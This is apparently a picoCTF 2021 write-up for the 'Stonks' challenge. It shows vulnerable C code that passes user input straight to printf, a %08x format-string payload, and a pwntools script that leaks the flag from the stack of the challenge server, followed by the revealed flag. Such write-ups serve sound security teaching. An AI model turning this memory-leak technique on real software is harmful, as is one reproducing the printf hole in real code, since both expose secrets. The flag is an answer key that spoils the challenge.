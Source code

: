 # Stonks - picoCTF 2021 - CMU Cybersecurity Competition
Binary Exploitation, 20 Points

## Description


![Stonks.JPG](images/Stonks.JPG)
 
Attached file [vuln.c](vuln.c)

## Stonks Solution

The attached file ```vuln.c``` contains the following function:
```c
int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}
```

The function above copy the flag copy to ```api_buf``` buffer using ```fgets(api_buf, FLAG_BUFFER, f);```.

Then, The function ask for user input:
```c
...
printf("What is your API token?\n");
scanf("%300s", user_buf);
...
printf(user_buf);
```

And we can see the user input printed by ```printf(user_buf);```, It's mean we can use [Format String Vuln.](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf) to print ```api_buf``` buffer from stack using ```%08x``` - which print one value from stack.

So let's try it:
```console
┌─[evyatar@parrot]─[/pico2021/Stonks] 
└──╼ $ nc mercury.picoctf.net 33411 
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
Buying stonks with token:
09a3b3b00804b000080489c3f7f9fd80ffffffff0000000109a39160f7fad110f7f9fdc70000000009a3a1800000000409a3b39009a3b3b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffa8007df7fdaaf8f7fad440c27a0f000000000100000000f7e3cbe9f7fae0c0
Portfolio as of Tue Mar 30 22:43:14 UTC 2021


3 shares of FCLC
1 shares of YBEH
9 shares of RU
63 shares of FTIA
92 shares of F
333 shares of Z
7 shares of XOOJ
87 shares of BV
89 shares of WU
822 shares of KP
Goodbye!
```
So as we can see we get the following hex bytes:```09a3b3b00804b000080489c3f7f9fd80ffffffff0000000109a39160f7fad110f7f9fdc70000000009a3a1800000000409a3b39009a3b3b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffa8007df7fdaaf8f7fad440c27a0f000000000100000000f7e3cbe9f7fae0c0``` which is hex values from stack.

Let's write python code using ```pwntools``` to unpack the hex values from stack into string to get our flag.

So first, connect to server, send the payload and split the response by ```\n``` to get only hex bytes:
```python
from pwn import *

p = remote('mercury.picoctf.net', 33411)

print(p.recvuntil("portfolio"))
p.sendline("1")
print("Sending command: 1")

print(p.recvuntil("?"))
p.sendline("%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")

print("Sending payload: %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")
flag_bytes=p.recvuntil("Portfolio").split('\n')[2]

```

Now, ```flag_bytes``` contains ```09a3b3b00804b000080489c3f7f9fd80ffffffff0000000109a39160f7fad110f7f9fdc70000000009a3a1800000000409a3b39009a3b3b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffa8007df7fdaaf8f7fad440c27a0f000000000100000000f7e3cbe9f7fae0c0```.

We can split it into 8 bytes using the following function:
```python
def split_to_8_bytes_arr(flag_split_by_8_bytes):
        n=8
        return [flag_bytes[i:i+n] for i in range(0, len(flag_bytes), n)]
```

It will return:
```python
['09a3b3b0', '0804b000', '080489c3', 'f7f9fd80', 'ffffffff', '00000001', '09a39160', 'f7fad110', 'f7f9fdc7', '00000000', '09a3a180', '00000004', '09a3b390', '09a3b3b0', '6f636970', '7b465443', '306c5f49', '345f7435', '6d5f6c6c', '306d5f79', '5f79336e', '63343261', '36613431', 'ffa8007d', 'f7fdaaf8', 'f7fad440', 'c27a0f00', '00000001', '00000000', 'f7e3cbe9', 'f7fae0c0']
```

Now, we need to unpack the bytes using ```p32``` and to filter only the printable characters that contains our flag using the following code:
```python
def print_flag_from_hex_arr(hex_arr):
        flag=""
        for byte in flag_split_by_8_bytes:
                upack_byte_str=str(p32(int(byte,16)))
                if all(c in string.printable for c in upack_byte_str):
                        flag+=upack_byte_str
        print("Flag: " + flag + "}")
```

Write all together:
```python
from pwn import *

def split_to_8_bytes_arr(flag_split_by_8_bytes):
        n=8
        return [flag_bytes[i:i+n] for i in range(0, len(flag_bytes), n)]

def print_flag_from_hex_arr(hex_arr):
        flag=""
        for byte in flag_split_by_8_bytes:
                upack_byte_str=str(p32(int(byte,16)))
                if all(c in string.printable for c in upack_byte_str):
                        flag+=upack_byte_str
        print("Flag: " + flag + "}")


p = remote('mercury.picoctf.net', 33411)

print(p.recvuntil("portfolio"))
p.sendline("1")
print("Sending command: 1")

print(p.recvuntil("?"))
p.sendline("%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")

print("Sending payload: %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")
flag_bytes=p.recvuntil("Portfolio").split('\n')[2]

flag_split_by_8_bytes=split_to_8_bytes_arr(flag_bytes)
print_flag_from_hex_arr(flag_split_by_8_bytes)
```

Run it:
```console
┌─[evyatar@parrot]─[/pico2021/Stonks] 
└──╼ $ python stonks.py 
[+] Opening connection to mercury.picoctf.net on port 33411: Done
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
Sending command: 1

Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
Sending payload: %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
Flag: picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}
[*] Closed connection to mercury.picoctf.net port 33411
```

```Flag: picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}```.
